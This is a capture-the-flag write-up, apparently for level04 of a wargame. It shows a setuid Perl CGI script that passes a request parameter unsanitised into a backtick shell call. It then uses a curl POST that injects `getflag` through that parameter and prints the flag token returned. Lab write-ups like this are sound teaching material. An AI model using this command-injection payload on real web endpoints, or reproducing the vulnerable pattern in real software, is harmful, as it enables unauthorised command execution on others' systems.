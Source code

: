 When we started the level04, in the home of the user we found the perl file **level04.pl**

it looks like this:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The relevent parts are:
- the second line:
```pl
# localhost:4747
```
Which hint us to use curl to call the perl script.

- and the function x:

```pl
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Which print $y, which is the param x, said here:
```pl
x(param("x"));
```

while making ls -l, we can see:

```bash
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```
Which means that like in the previous flag, the script as permission to execute getflag as flag04.

We then use curl to call the scipt:

```bash
curl -X POST http://localhost:4747/level04.pl  -d 'x=`getflag`'
```

and we got:

```bash
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
